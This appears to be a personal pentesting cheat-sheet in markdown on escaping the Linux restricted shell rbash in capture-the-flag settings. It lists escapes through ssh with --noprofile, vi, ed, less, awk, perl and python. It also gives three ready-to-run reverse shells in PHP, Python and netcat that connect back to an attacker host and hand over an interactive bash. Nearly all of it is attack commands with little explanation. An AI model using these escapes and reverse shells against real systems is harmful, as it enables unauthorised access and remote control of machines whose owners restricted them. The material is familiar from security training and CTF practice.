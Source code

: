 ```yaml
---
category: Uncategorized
tags: []
---
```

https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

#### rbash escape through SSH
Our First Method is Escaping the rbash shell through ssh many ctf playing times we have ssh username and password but our shell is restricted with rbash. we can easily bypass this rbash shell using extra argument bash noprofile

```bash - kali
ssh $USER@$TARGET
```

```bash - target
echo $SHELL
```

```bash - target
cd ../
```

we can bypass the rbash shell using the no-profile extra parameter

```bash - kali
ssh $USER@$TARGET -t "bash --noprofile"
```

```bash - target
cd ../
```

#### rbash escape through editors
Linux has many editors we can bypass the rbash using these editor commands

#### bypass rbash using vi editor
First, we open the vi editor then we used: set option and we create a shell name variable and in this variable, we set our bash environment location. run the command one by one

run the vi command and our vi editor is open using the set mode we can bypass the restricted rbash shell

```bash - target
vi
```

```bash - taret
:set shell=/bin/bash
```

```bash - target
:shell
```
  
#### escaping rbash – ed editor
ed is another Linux editor simple we can run ed edit mode without selecting any file then we type bash path

```bash - target
cd /home
```

```bash - target
echo $SHELL
```

```bash - target
ed
```

```bash - target
!'/bin/bash'
```

```bash - target
pwd
```

#### escape rbash through reverse shell
We can bypass the rbash shell through different Linux reverse shell **Note:** before executing the reverse shell we need to start a net-cat listener.

##### rbash shell bypass – php
```bash - target
cd /
```

```bash - target
echo $SHELL
```

we open two ssh connections our cd command is currently not working before execute the reverse shell command firstly we start our netcat listener. in this case, we are using the same machine you can use your localhost IP for reverse connection

[[rlwrap]]

```bash - target
php -r '$sock=fsockopen("$KALI",443);exec("/bin/bash -i <&3 >&3 2>&3");'
```

After executing the reverse shell command we got the reverse connection target machine. and we successfully bypass the restricted rbash shell.

```bash - target
echo $SHELL
```

```bash - target
cd /
```

```bash - target
pwd
```

#### rbash shell bypass – python
this is another way to bypass the rbash shell using python reverse shell remember before executing the reverse shell command you need to start your netcat listener.

```bash - target
cd /
```

```bash - target
echo $SHELL
```

[[rlwrap]]

```bash - target
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```bash - target
cd /
```

```bash - target
pwd
```

#### rbash shell bypass – netcat
```bash - target
cd /home
```

```bash - target
echo $SHELL
```

[[rlwrap]]

```bash - target
nc  $KALI 443 -e /bin/bash
```

#### rbash escape with python
If the target system already installed any python version we run these commands for bypassing the rbash shell

```bash - target
echo $SHELL
```

```bash - target
cd ../
```

```bash - target
python -c 'import os; os.system("/bin/bash");'
```

```bash - target
python3 -c 'import os; os.system("/bin/bash");'
```

and again we escape the rbash shell using python command executing -c argument.

```bash - target
cd /home
```

```bash - target
cd ../
```

### rbash escape **Awk**
```bash - target
cd /home
```

```bash - target
echo $SHELL
```

```bash - target
awk 'BEGIN {system("/bin/bash")}' cd /home cd ~ pwd
```

```bash - target
awk 'BEGIN {system("/bin/bash")}'
```

```bash - target
cd /home
```

```bash - target
cd ~
```

```bash - target
pwd
```

### rbash escape perl
```bash - target
cd /
```

```bash - target
echo $SHELL
```

```bash - target
perl -e 'system("/bin/bash");'
```

```bash - target
cd /
```

```bash - target
cd /home
```

### rbash bypass through binary file
```bash - target
cd /
```

```bash - target
echo $SHELL
```

```bash - target
less anyfile.txt
```

```bash - target
!'bash'
```

```bash - target
cd /
```

```bash - target
cd /home
```

```bash - target
pwd
```

```bash - target
echo $SHELL
```
